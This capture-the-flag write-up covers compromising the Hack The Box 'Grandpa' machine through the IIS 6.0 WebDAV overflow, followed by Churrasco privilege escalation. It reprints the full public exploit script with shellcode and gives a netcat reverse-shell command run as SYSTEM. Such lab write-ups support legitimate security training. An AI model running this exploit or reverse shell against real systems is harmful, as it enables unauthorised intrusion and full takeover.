# Hack The Box — Grandpa

> **Platform:** Hack The Box  
> **Machine:** Grandpa  
> **Difficulty:** Easy  
> **Operating System:** Windows  
> **Assessment Type:** Black-Box  
> **Objective:** Obtain user and SYSTEM access by identifying and exploiting vulnerabilities in Microsoft IIS 6.0 WebDAV and performing local privilege escalation.

---

# Overview

Grandpa is one of Hack The Box's classic Windows machines that demonstrates the importance of identifying legacy services and understanding how multiple stages of an attack fit together.

Unlike machines where exploitation immediately results in SYSTEM privileges, Grandpa requires a complete offensive workflow consisting of reconnaissance, exploitation, local enumeration, privilege escalation, and post-exploitation.

The assessment began by identifying the exposed services, validating the target's software versions, exploiting a vulnerable IIS WebDAV service to gain an initial foothold, and finally escalating privileges to **NT AUTHORITY\SYSTEM** through a local privilege escalation vulnerability.

This machine reinforces an important lesson:

> Initial access is only the beginning. Successful engagements depend just as much on post-exploitation and privilege escalation as they do on exploitation itself.

---

# Attack Path

```
Reconnaissance
      │
      ▼
Service Enumeration
      │
      ▼
IIS 6.0 Fingerprinting
      │
      ▼
Vulnerability Research
      │
      ▼
WebDAV Exploitation
      │
      ▼
Meterpreter Session
      │
      ▼
Local Enumeration
      │
      ▼
Privilege Escalation Research
      │
      ▼
Churrasco Token Impersonation
      │
      ▼
SYSTEM Access
```

---

# Initial Reconnaissance

As with every assessment, the first objective was to understand the externally exposed attack surface.

A standard Nmap scan was performed using service detection together with the default NSE scripts.

```bash
nmap -sC -sV -oN nmap_scan 10.129.95.233
```

### Scan Result

> 📷 **Screenshot**



The scan revealed only two accessible services.

| Port | Service | Version |
|-------|----------|----------|
|80|HTTP|Microsoft IIS 6.0|

Although the attack surface appeared small, one service immediately stood out.

The web server was running **Microsoft IIS 6.0**, a legacy version that has been affected by several publicly disclosed vulnerabilities throughout its lifetime.

Because outdated web services often present the highest probability of remote compromise, IIS became the primary focus of the assessment.

---

# Web Enumeration

After identifying the web server, I opened the application in the browser to understand what it was hosting.

> 📷 **Screenshot**



The server responded with the default IIS landing page.

While this page did not expose any sensitive functionality, it confirmed several useful observations.

- Microsoft IIS 6.0
- Default website configuration
- WebDAV functionality enabled

The presence of WebDAV immediately suggested investigating publicly available vulnerabilities targeting IIS 6.0.

---

# Vulnerability Research

Rather than immediately attempting exploitation, I first validated whether known public vulnerabilities existed for the detected IIS version.

Using Searchsploit:

```bash
searchsploit IIS 6.0
```

> 📷 **Screenshot**



Several public exploits were returned.

Among them, one vulnerability attracted immediate attention.

```
Microsoft IIS 6.0 WebDAV ScStoragePathFromUrl Overflow
```

To better understand the available exploit options, I mirrored the exploit locally.

```bash
searchsploit -m 41738.py
```

> 📷 **Screenshot**



Reviewing exploit code before execution is a valuable habit during offensive assessments.

Rather than blindly running public exploits, understanding how they interact with the target helps validate assumptions and reduces unnecessary risk.

---

```python
'''
Description:Buffer overflow in the ScStoragePathFromUrl function in the WebDAV service in Internet Information Services (IIS) 6.0 in Microsoft Windows Server 2003 R2 allows remote attackers to execute arbitrary code via a long header beginning with "If: <http://" in a PROPFIND request, as exploited in the wild in July or August 2016.

Additional Information: the ScStoragePathFromUrl function is called twice
Vulnerability Type: Buffer overflow
Vendor of Product: Microsoft
Affected Product Code Base: Windows Server 2003 R2
Affected Component: ScStoragePathFromUrl
Attack Type: Remote
Impact Code execution: true
Attack Vectors: crafted PROPFIND data

Has vendor confirmed or acknowledged the vulnerability?:true

Discoverer:Zhiniang Peng and Chen Wu.
Information Security Lab & School of Computer Science & Engineering, South China University of Technology Guangzhou, China
'''

#------------Our payload set up a ROP chain by using the overflow 3 times. It will launch a calc.exe which shows the bug is really dangerous.
#written by Zhiniang Peng and Chen Wu. Information Security Lab & School of Computer Science & Engineering, South China University of Technology Guangzhou, China
#-----------Email: edwardz@foxmail.com

import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(('127.0.0.1',80))

pay='PROPFIND / HTTP/1.1\r\nHost: localhost\r\nContent-Length: 0\r\n'
pay+='If: <http://localhost/aaaaaaa'
pay+='\xe6\xbd\xa8\xe7\xa1\xa3\xe7\x9d\xa1\xe7\x84\xb3\xe6\xa4\xb6\xe4\x9d\xb2\xe7\xa8\xb9\xe4\xad\xb7\xe4\xbd\xb0\xe7\x95\x93\xe7\xa9\x8f\xe4\xa1\xa8\xe5\x99\xa3\xe6\xb5\x94\xe6\xa1\x85\xe3\xa5\x93\xe5\x81\xac\xe5\x95\xa7\xe6\x9d\xa3\xe3\x8d\xa4\xe4\x98\xb0\xe7\xa1\x85\xe6\xa5\x92\xe5\x90\xb1\xe4\xb1\x98\xe6\xa9\x91\xe7\x89\x81\xe4\x88\xb1\xe7\x80\xb5\xe5\xa1\x90\xe3\x99\xa4\xe6\xb1\x87\xe3\x94\xb9\xe5\x91\xaa\xe5\x80\xb4\xe5\x91\x83\xe7\x9d\x92\xe5\x81\xa1\xe3\x88\xb2\xe6\xb5\x8b\xe6\xb0\xb4\xe3\x89\x87\xe6\x89\x81\xe3\x9d\x8d\xe5\x85\xa1\xe5\xa1\xa2\xe4\x9d\xb3\xe5\x89\x90\xe3\x99\xb0\xe7\x95\x84\xe6\xa1\xaa\xe3\x8d\xb4\xe4\xb9\x8a\xe7\xa1\xab\xe4\xa5\xb6\xe4\xb9\xb3\xe4\xb1\xaa\xe5\x9d\xba\xe6\xbd\xb1\xe5\xa1\x8a\xe3\x88\xb0\xe3\x9d\xae\xe4\xad\x89\xe5\x89\x8d\xe4\xa1\xa3\xe6\xbd\x8c\xe7\x95\x96\xe7\x95\xb5\xe6\x99\xaf\xe7\x99\xa8\xe4\x91\x8d\xe5\x81\xb0\xe7\xa8\xb6\xe6\x89\x8b\xe6\x95\x97\xe7\x95\x90\xe6\xa9\xb2\xe7\xa9\xab\xe7\x9d\xa2\xe7\x99\x98\xe6\x89\x88\xe6\x94\xb1\xe3\x81\x94\xe6\xb1\xb9\xe5\x81\x8a\xe5\x91\xa2\xe5\x80\xb3\xe3\x95\xb7\xe6\xa9\xb7\xe4\x85\x84\xe3\x8c\xb4\xe6\x91\xb6\xe4\xb5\x86\xe5\x99\x94\xe4\x9d\xac\xe6\x95\x83\xe7\x98\xb2\xe7\x89\xb8\xe5\x9d\xa9\xe4\x8c\xb8\xe6\x89\xb2\xe5\xa8\xb0\xe5\xa4\xb8\xe5\x91\x88\xc8\x82\xc8\x82\xe1\x8b\x80\xe6\xa0\x83\xe6\xb1\x84\xe5\x89\x96\xe4\xac\xb7\xe6\xb1\xad\xe4\xbd\x98\xe5\xa1\x9a\xe7\xa5\x90\xe4\xa5\xaa\xe5\xa1\x8f\xe4\xa9\x92\xe4\x85\x90\xe6\x99\x8d\xe1\x8f\x80\xe6\xa0\x83\xe4\xa0\xb4\xe6\x94\xb1\xe6\xbd\x83\xe6\xb9\xa6\xe7\x91\x81\xe4\x8d\xac\xe1\x8f\x80\xe6\xa0\x83\xe5\x8d\x83\xe6\xa9\x81\xe7\x81\x92\xe3\x8c\xb0\xe5\xa1\xa6\xe4\x89\x8c\xe7\x81\x8b\xe6\x8d\x86\xe5\x85\xb3\xe7\xa5\x81\xe7\xa9\x90\xe4\xa9\xac'
pay+='>'
pay+=' (Not <locktoken:write1>) <http://localhost/bbbbbbb'
pay+='\xe7\xa5\x88\xe6\x85\xb5\xe4\xbd\x83\xe6\xbd\xa7\xe6\xad\xaf\xe4\xa1\x85\xe3\x99\x86\xe6\x9d\xb5\xe4\x90\xb3\xe3\xa1\xb1\xe5\x9d\xa5\xe5\xa9\xa2\xe5\x90\xb5\xe5\x99\xa1\xe6\xa5\x92\xe6\xa9\x93\xe5\x85\x97\xe3\xa1\x8e\xe5\xa5\x88\xe6\x8d\x95\xe4\xa5\xb1\xe4\x8d\xa4\xe6\x91\xb2\xe3\x91\xa8\xe4\x9d\x98\xe7\x85\xb9\xe3\x8d\xab\xe6\xad\x95\xe6\xb5\x88\xe5\x81\x8f\xe7\xa9\x86\xe3\x91\xb1\xe6\xbd\x94\xe7\x91\x83\xe5\xa5\x96\xe6\xbd\xaf\xe7\x8d\x81\xe3\x91\x97\xe6\x85\xa8\xe7\xa9\xb2\xe3\x9d\x85\xe4\xb5\x89\xe5\x9d\x8e\xe5\x91\x88\xe4\xb0\xb8\xe3\x99\xba\xe3\x95\xb2\xe6\x89\xa6\xe6\xb9\x83\xe4\xa1\xad\xe3\x95\x88\xe6\x85\xb7\xe4\xb5\x9a\xe6\x85\xb4\xe4\x84\xb3\xe4\x8d\xa5\xe5\x89\xb2\xe6\xb5\xa9\xe3\x99\xb1\xe4\xb9\xa4\xe6\xb8\xb9\xe6\x8d\x93\xe6\xad\xa4\xe5\x85\x86\xe4\xbc\xb0\xe7\xa1\xaf\xe7\x89\x93\xe6\x9d\x90\xe4\x95\x93\xe7\xa9\xa3\xe7\x84\xb9\xe4\xbd\x93\xe4\x91\x96\xe6\xbc\xb6\xe7\x8d\xb9\xe6\xa1\xb7\xe7\xa9\x96\xe6\x85\x8a\xe3\xa5\x85\xe3\x98\xb9\xe6\xb0\xb9\xe4\x94\xb1\xe3\x91\xb2\xe5\x8d\xa5\xe5\xa1\x8a\xe4\x91\x8e\xe7\xa9\x84\xe6\xb0\xb5\xe5\xa9\x96\xe6\x89\x81\xe6\xb9\xb2\xe6\x98\xb1\xe5\xa5\x99\xe5\x90\xb3\xe3\x85\x82\xe5\xa1\xa5\xe5\xa5\x81\xe7\x85\x90\xe3\x80\xb6\xe5\x9d\xb7\xe4\x91\x97\xe5\x8d\xa1\xe1\x8f\x80\xe6\xa0\x83\xe6\xb9\x8f\xe6\xa0\x80\xe6\xb9\x8f\xe6\xa0\x80\xe4\x89\x87\xe7\x99\xaa\xe1\x8f\x80\xe6\xa0\x83\xe4\x89\x97\xe4\xbd\xb4\xe5\xa5\x87\xe5\x88\xb4\xe4\xad\xa6\xe4\xad\x82\xe7\x91\xa4\xe7\xa1\xaf\xe6\x82\x82\xe6\xa0\x81\xe5\x84\xb5\xe7\x89\xba\xe7\x91\xba\xe4\xb5\x87\xe4\x91\x99\xe5\x9d\x97\xeb\x84\x93\xe6\xa0\x80\xe3\x85\xb6\xe6\xb9\xaf\xe2\x93\xa3\xe6\xa0\x81\xe1\x91\xa0\xe6\xa0\x83\xcc\x80\xe7\xbf\xbe\xef\xbf\xbf\xef\xbf\xbf\xe1\x8f\x80\xe6\xa0\x83\xd1\xae\xe6\xa0\x83\xe7\x85\xae\xe7\x91\xb0\xe1\x90\xb4\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81\xe9\x8e\x91\xe6\xa0\x80\xe3\xa4\xb1\xe6\x99\xae\xe4\xa5\x95\xe3\x81\x92\xe5\x91\xab\xe7\x99\xab\xe7\x89\x8a\xe7\xa5\xa1\xe1\x90\x9c\xe6\xa0\x83\xe6\xb8\x85\xe6\xa0\x80\xe7\x9c\xb2\xe7\xa5\xa8\xe4\xb5\xa9\xe3\x99\xac\xe4\x91\xa8\xe4\xb5\xb0\xe8\x89\x86\xe6\xa0\x80\xe4\xa1\xb7\xe3\x89\x93\xe1\xb6\xaa\xe6\xa0\x82\xe6\xbd\xaa\xe4\x8c\xb5\xe1\x8f\xb8\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81'

shellcode='VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JB6X6WMV7O7Z8Z8Y8Y2TMTJT1M017Y6Q01010ELSKS0ELS3SJM0K7T0J061K4K6U7W5KJLOLMR5ZNL0ZMV5L5LMX1ZLP0V3L5O5SLZ5Y4PKT4P4O5O4U3YJL7NLU8PMP1QMTMK051P1Q0F6T00NZLL2K5U0O0X6P0NKS0L6P6S8S2O4Q1U1X06013W7M0B2X5O5R2O02LTLPMK7UKL1Y9T1Z7Q0FLW2RKU1P7XKQ3O4S2ULR0DJN5Q4W1O0HMQLO3T1Y9V8V0O1U0C5LKX1Y0R2QMS4U9O2T9TML5K0RMP0E3OJZ2QMSNNKS1Q4L4O5Q9YMP9K9K6SNNLZ1Y8NMLML2Q8Q002U100Z9OKR1M3Y5TJM7OLX8P3ULY7Y0Y7X4YMW5MJULY7R1MKRKQ5W0X0N3U1KLP9O1P1L3W9P5POO0F2SMXJNJMJS8KJNKPA'

pay+=shellcode
pay+='>\r\n\r\n'
print pay

sock.send(pay)
data = sock.recv(80960)

print data
sock.close

```

# Explaination of Script:
 
> (If you do not want to use or is interested in Metaspliot's exploit you can skip this section.)

This script is an exploit, specifically a Proof of Concept (PoC) for a famous vulnerability from 2017 known as CVE-2017-7269.

It is designed to attack an older Microsoft web server (IIS 6.0 running on Windows Server 2003). The ultimate goal of this specific script isn't to steal data or destroy the server; it is designed to force the target server to open the Windows Calculator app (calc.exe).

In the cybersecurity world, "popping a calculator" is the universal, harmless way for a researcher to prove, "I have found a way to execute my own commands on your machine."


---

# Selecting an Exploitation Method

Although the Python proof-of-concept was available, Metasploit provides a stable implementation of the same WebDAV vulnerability together with automatic payload generation and session management.

To determine whether the module was available, I searched Metasploit.

```text
search iis
```

> 📷 **Screenshot**



The framework included the **Microsoft IIS WebDAV ScStoragePathFromUrl Overflow** exploit module.

Using the maintained Metasploit module simplified payload generation while preserving the same attack path.

---

# Initial Access

After loading the exploit module, I configured the required parameters.

```text
set RHOSTS 10.129.95.233
set LHOST <VPN-IP>
```

Once the payload options had been configured, the exploit was executed.

> 📷 **Screenshot**



The exploit completed successfully and established a Meterpreter session against the target.

At this stage, remote code execution had been achieved under the privileges assigned to the compromised IIS worker process.

Obtaining an initial shell, however, was only the first objective.

The next step was to determine the current privilege level and identify an appropriate path to SYSTEM.

---

# Verifying the Current Context

To understand the level of access obtained through the IIS exploit, I migrated into a stable process and verified the execution context.

```text
getuid
```

The session confirmed that commands were executing under the **NETWORK SERVICE** account.

Although this account provides limited access to the operating system, it does not possess administrative privileges.

A local privilege escalation would therefore be required before the assessment could be considered complete.

---

# Local Enumeration

Before attempting privilege escalation, I gathered additional information about the compromised host to better understand the operating environment.

Basic system information was collected to identify the Windows version, installed patches, and running services.

```cmd
sysinfo
```

Listing the contents of the current directory also helped identify accessible files and confirm the working location of the compromised process.

> 📷 **Screenshot**



Since manual enumeration can overlook potential privilege escalation vectors, I decided to use Metasploit's **Local Exploit Suggester** module.

This module compares the target's operating system, architecture, and installed patches against a database of known local privilege escalation vulnerabilities.

---

# Identifying a Privilege Escalation Path

After backgrounding the Meterpreter session, I executed the Local Exploit Suggester module.

> 📷 **Screenshot**



Several potential privilege escalation techniques were identified.

Rather than attempting every available exploit, I selected **Churrasco**, a well-known token impersonation exploit suitable for older versions of Windows running services under the **NETWORK SERVICE** account.

Choosing a privilege escalation technique should always be based on the current execution context rather than simply selecting the first available exploit.

---

# Researching the Exploit

Before executing the exploit, I reviewed the original Churrasco project to understand how it worked and verify the expected behavior.

> 📷 **Screenshot**



Churrasco exploits a weakness in the Windows Secondary Logon service that allows a lower-privileged service account to impersonate a privileged token and execute arbitrary commands as **NT AUTHORITY\SYSTEM**.

Since the current shell was running as **NETWORK SERVICE**, this exploit represented an appropriate privilege escalation technique.

---

# Preparing the Privilege Escalation

Unlike Meterpreter's built-in privilege escalation modules, Churrasco requires a command to execute once SYSTEM privileges have been obtained.

To convert the elevated execution into an interactive shell, I chose to upload a Windows build of Netcat.

First, a Netcat listener was started on the attacking machine.

```bash
nc -lvnp 4445
```

> 📷 **Screenshot**



Next, the Netcat binary was uploaded to the compromised host.

> 📷 **Screenshot**



After confirming the transfer, the Churrasco executable was uploaded using Meterpreter.

> 📷 **Screenshot**



With both binaries successfully transferred, everything was in place for the privilege escalation.

---

# Privilege Escalation

Churrasco was instructed to execute Netcat using the stolen SYSTEM token.

```cmd
churrasco.exe -d "C:\Windows\Temp\nc.exe -e cmd.exe <VPN-IP> 4445"
```

> 📷 **Screenshot**



A few seconds later, the waiting Netcat listener received a new connection.

> 📷 **Screenshot**



To verify the privilege level, I executed:

```cmd
whoami
```

The output confirmed:

```
nt authority\system
```

At this stage, full administrative control of the operating system had been achieved.

---

# User Enumeration

With unrestricted access to the system, I navigated through the user profiles to locate the user flag.

The Desktop directory contained the expected flag file.

> 📷 **Screenshot**



Reading the contents of `user.txt` confirmed successful user-level compromise.

---

# SYSTEM Verification

Finally, I navigated to the Administrator profile.

The Administrator Desktop contained the root flag.

> 📷 **Screenshot**



Successfully reading `root.txt` confirmed complete compromise of the target and marked the end of the assessment.

---

# Findings

| Finding | Severity |
|----------|----------|
|Microsoft IIS 6.0 WebDAV Remote Code Execution|Critical|
|Legacy Windows Server Operating System|High|
|Token Impersonation Privilege Escalation|High|
|Outdated Web Server Components|High|

---

# Lessons Learned

Grandpa demonstrates that successful penetration tests rarely end after obtaining an initial shell.

Several important lessons emerged during this assessment:

- Legacy web services continue to present valuable attack surfaces when exposed to the internet.
- Public exploit databases are useful for validating potential attack vectors before exploitation.
